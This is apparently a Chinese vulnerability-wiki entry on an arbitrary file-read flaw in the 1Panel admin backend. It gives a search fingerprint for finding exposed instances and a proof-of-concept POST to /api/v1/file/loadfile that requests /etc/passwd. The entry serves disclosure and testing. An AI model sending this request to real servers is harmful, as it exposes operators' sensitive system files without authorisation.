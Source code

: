 # 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

<a-checkbox checked>1Panel</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"1Panel"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691724157871-153c523f-4eb1-4145-8c90-b4e7608d792c.png)

![img](/assets/PeiQi-Wiki/img/1691724195121-1bffe5bb-9161-4087-a15d-68fb29a44fe0.png)

![img](/assets/PeiQi-Wiki/img/1691724202417-adf0c19b-38a8-4549-95b1-66231a19234f.png)

验证POC

```php
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![img](/assets/PeiQi-Wiki/img/1691724120824-b3faa665-32bc-45f7-a1ad-232aac1a61c0.png)